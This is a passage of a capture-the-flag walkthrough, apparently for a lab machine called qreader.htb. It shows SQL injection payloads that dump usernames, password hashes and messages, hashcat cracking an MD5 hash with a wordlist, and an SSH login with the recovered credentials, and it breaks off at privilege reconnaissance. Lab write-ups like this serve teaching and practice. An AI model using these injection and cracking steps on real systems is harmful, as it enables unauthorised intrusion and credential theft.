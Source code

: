 ```python
VERSION = '0.0.2" UNION SELECT username,password,role,4 FROM users; -- '
```

output :

```text
{"message": {"id": "admin", "version": "0c090c365fa0559b151a43e0fea39710", "released_date": "admin", "downloads": 4}}
```

there is no other users.

```python
VERSION = '0.0.2" UNION SELECT answered_by,answer,3,4 FROM answers; -- '
```

output :

```text
{"message": {"id": "admin", "version": "Hello Mike,\n\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\n\nThomas Keller", "released_date": 3, "downloads": 4}}
```

We can find a reference to a user named "Thomas Keller".

### password crack

Let's crack this MD5 hash :

```shell
echo "0c090c365fa0559b151a43e0fea39710" > hash.txt
hashcat -m 0 ./hash.txt /usr/share/wordlists/rockyou.txt
```

output :

```text
0c090c365fa0559b151a43e0fea39710:denjanjade122566
```


## Initial access

Knowing the user "Thomas Keller" and the password "denjanjade122566", we can open a SSH connection :

```bash
ssh tkeller@qreader.htb
```


## Post-Exploitation

### Host Reconnaissance

```bash
sudo -l
```
